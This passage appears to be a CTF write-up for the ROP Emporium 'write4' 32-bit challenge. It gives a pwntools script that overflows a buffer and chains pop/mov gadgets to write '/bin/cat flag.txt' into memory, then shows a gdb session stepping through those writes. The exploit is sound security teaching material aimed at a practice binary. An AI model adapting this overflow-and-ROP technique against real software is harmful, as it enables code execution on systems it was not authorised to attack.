```python
from pwn import *

pop_2 = p32(0x080486da) # pop edi; pop ebp; ret
mov = p32(0x08048670) # mov DWORD PTR [edi],ebp
bss_addr = 0x0804a040

payload = 'A'*44
#first write
payload += pop_2
payload += p32(bss_addr)
payload += p32(0x6e69622f) # "/bin"
payload += mov

#second write
payload += pop_2
payload += p32(bss_addr+0x4)
payload += p32(0x7461632f) # "/cat"
payload += mov

#third write
payload += pop_2
payload += p32(bss_addr+0x8)
payload += p32(0x616c6620) # " fla"
payload += mov

#fourth write
payload += pop_2
payload += p32(bss_addr+0xc)
payload += p32(0x78742e67) # "g.tx"
payload += mov

#last write
payload += pop_2
payload += p32(bss_addr+0x10)
payload += p32(0x00000074)
payload += mov

print payload
```
I piped the output of the script into a file called `payload`. And run the executable with `gdb`.
```
$ gdb ./write432 -q
Reading symbols from ./write432...(no debugging symbols found)...done.
(gdb) b *0x08048670
Breakpoint 1 at 0x8048670
(gdb) r < payload 
Starting program: /home/qh/CTF/ropemporium/write4/32/write432 < payload
write4 by ROP Emporium
32bits

Go ahead and give me the string already!
> 
Breakpoint 1, 0x08048670 in usefulGadgets ()
(gdb) c
Continuing.

Breakpoint 1, 0x08048670 in usefulGadgets ()
(gdb) c
Continuing.

Breakpoint 1, 0x08048670 in usefulGadgets ()
(gdb) c
Continuing.
```